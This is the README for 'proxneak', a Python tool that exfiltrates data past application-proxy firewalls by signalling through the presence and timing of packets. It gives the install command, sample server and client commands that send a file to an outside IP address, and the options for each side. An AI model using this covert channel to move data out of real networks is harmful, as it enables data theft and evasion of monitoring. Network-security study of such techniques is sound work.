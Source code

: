 proxneak
========

A means of exfiltrating data through anything that allows a connection,
including regenerative proxies.

The idea came to me while I was tinkering with an application-proxy firewall.
For those unfamiliar, these devices use a deeper level of packet inspection to
determine the protocol in use and match it to a rule.  For example, if generic
HTTP is allowed, then someone trying to tunnel, say, SSH over it would find
the connection dropped.  While there are some clever ways out there of hiding
one protocol in another (HTTP over DNS comes to mind), I wanted a way to send
information regardless of the filters.

Proxneak does this by utilizing the basic behavior of the proxies (if there is
one) to send the packet on if it matches the parameters.  Many proxies will
establish a TCP connection first to see if it's allowed and then look at the
contents to see if it should be closed off.  In part to prevent something
sneaking through in the structure, they regenerate the packet entirely, often
resulting in a TCP connection from an OS different from the originating system
(for example, FreeBSD instead of Windows).  But it still sends a packet, and
that a packet is sent can still be a form of information.

(Note that this might also be a way of sending information, albeit slowly,
that the NSA, et al., can't reasonably track.  Saving all of the SYN packets
that cross the Internet just isn't a practical way of doing business.)

Requirements
============
 - Python 2.7 on sending and receiving side (basic installation may suffice,
   python-argparse sometimes needs to be added)
 - pcapy on the receiving side


Install
=======
Download the latest version from the GitHub repo:

git clone https://github.com/NetworkLlama/proxneak.git


Usage
=====
Set up the server:

```sudo python proxneak-server.py -i eth0 --proto t -p 80 -f test.txt```


And then send the data with the client:

```python proxneak.py -d 198.51.100.27 --proto t -p 80 -f test.txt -r 10```


Command Line
============
Sender
------
* -h, --help   show this help message and exit
* -s <src>     Source IP address (not currently implemented
* -d <dst>     Destination IP address (required)
* -p port      Destination port (default is 53)
* --proto      Protocol to use (t=TCP, u=UDP (default), i=ICMP); ICMP requires
               root access
* -f filename  Input file name
* -r integer   Number of packets to send per second (default 1; recommended is
               5 or less)
* -v           Verbose mode (be aware that this may leave behind artifacts)
* -V           Display version number
* -z           Compress content with bzip2 before sending

Receiver
--------
* -h, --help          show this help message and exit
* -i <interface>      Listener network interface (required)
* -s <src>            Sending IP address (optional)
* -d <dst>            Receiving IP address (optional)
* -p <port>           Listener port (default is 53)
* --proto <protocol>  Protocol to use (T=TCP, U=UDP (default), I=ICMP)
* -f filename         Output file name (required)
* -r filename         Read a list file in (requires --proto be specified)
* -v                  Verbose mode
* -V                  Display version number
* -z                  Incoming content is compressed with bzip2


Usage Notes
===========
* Sending to a system set to drop the inbound packets seems to work best (at
  least with regard to UDP).
* If you send with -z, you must receive with -z.  There's no automatic checking
  yet for whether incoming material is compressed.
* The rate setting (-r) is the number of packets per second, so it's the
  inverse of the gap between packets (-r 10 is 10pps or ~100ms between
  packets).  Be realistic.  Sending at 100pps might work if you're on a network
  that can actually do full gigabit, it's not going to work.  There's a reason
  the default is 1pps, and even that can have problems.
* Wireless makes life difficult.  The odds of a packet being delayed and
  throwing off the entire thing is extremely high, such that anything past a
  couple of hundred bytes has a very strong tendency to fail unless your gap is
  greater than about eight seconds.


Thanks
======
* Stephen Sims for getting me started on Python in a grueling SANS SEC660 class
* Lelouch Lamperouge for some inspiration on bits-to-bytes conversion
* Silver Moon for his pcapy code
* Catherine for putting up with me while I'm coding


Contact
=======
Jarrod Frates (jfrates@gmail.com)
http://llamasinmynetwork.com

